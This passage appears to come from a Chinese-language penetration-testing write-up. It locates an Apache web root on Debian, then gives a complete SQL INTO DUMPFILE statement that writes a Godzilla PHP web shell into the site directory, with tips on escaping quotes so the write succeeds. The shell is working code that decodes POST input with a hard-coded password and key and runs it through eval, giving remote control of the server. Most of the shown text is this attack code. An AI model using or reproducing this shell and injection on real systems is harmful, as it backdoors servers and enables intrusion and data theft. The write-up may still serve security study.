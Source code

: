 找一下网站的跟目录，操作系统是debian，中间件是apache。debian下的apache配置文件路经为/etc/apache2/apache2.conf。网站跟目录的配置文件在：/etc/apache2/sites-available/000-default.conf。

执行sql语句查看文件：

![image-20230613160256721](/images/12.png)

向目录下下写个哥斯拉马（其实一句话就ok），多行的话用dumpfile，不要用outfile（会转义/n）,写入内容中的单引号前面记得加'\\'

```sql
SELECT '<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass=\'fanxiaoyao\';
$payloadName=\'payload\';
$key=\'e512ecba478e0be2\';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}' INTO DUMPFILE "/var/www/html/iindex.php"
```
